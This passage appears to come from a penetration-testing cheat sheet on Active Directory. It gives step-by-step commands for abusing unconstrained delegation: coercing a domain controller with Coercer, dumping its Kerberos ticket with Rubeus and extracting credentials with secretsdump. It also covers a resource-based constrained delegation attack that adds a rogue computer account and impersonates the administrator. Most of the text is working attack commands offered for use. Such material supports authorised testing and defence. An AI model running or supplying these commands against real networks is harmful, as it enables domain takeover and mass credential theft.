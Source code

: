 Run Coercer to coerce a domain controller to connect to the system where you have local admin and is configured with unconstrained delegation:

```
python3 coercer.py coerce -d <domain> -u <username> -p <password> -t <domain controller> -l <system with unconstrained delegation>
```

On the system unconstrained delegation, run `Rubeus triage`. You should see an entry with a UserName like `DOMAINCONTROLLER$ @ DOMAINNAME.LOCAL` and a Service like `krbtgt/DOMAINNAME.LOCAL`.

Extract the ticket using Rubeus:

```
Rubeus.exe dump /user:DOMAINCONTROLLER$ /service:krbtgt /nowrap
```

Copy the ticket base64 encoded output to a file on your Kali system. `cat tgt.b64|base64 -d > ticket.kirbi`

If there are spaced and line returns in the ticket (There shouldn't be if you used /nowrap, but still:), remove the leading spaces and line returns using vim: `:%s/\s*\n\s*//g`

Convert the ticket to ccache format: `ticketConverter.py ticket.kirbi ticket.ccache`

Use the ticket and launch secretsdump:

```
export KRB5CCNAME=ticket.ccache
secretsdump.py -k -no-pass DOMAINNAME.LOCAL/'DOMAINCONTROLLER$'@DOMAINCONTROLLER
```

## GenericWrite ACL (Role Based Constrained Delegation)

GenericWrite to a computer object can be used to perform a resource based constrained delegation attack. In this example, user joe has GenericWrite on the DC02.corp.local Domain Controller.

### From Linux 

https://github.com/tothi/rbcd-attack

https://www.alteredsecurity.com/post/resource-based-constrained-delegation-rbcd

This attack requires a different version of rbcd.py than the one that comes with Impacket. Get it from https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py

Add a computer: `impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass Password12345 -dc-ip [DC IP] [domain]/[username]:[password]`

Modifying delegation rights: `python3 rbcd.py -f EVILCOMPUTER -t dc02 -dc-ip [DC IP] -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 corp.local\\joe`

Getting the impersonated service ticket. If you follow the instructions from the BloodHound "Abuse info", it tells you to use 'cifs'. However, since we want to dump NTDS from the domain controller, we use 'ldap' in this case. `getST.py -spn ldap/dc02.corp.local -impersonate administrator -dc-ip [DC IP] corp.local/EVILCOMPUTER$:Password12345`

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients. `export KRB5CCNAME=$(pwd)/administrator.ccache`
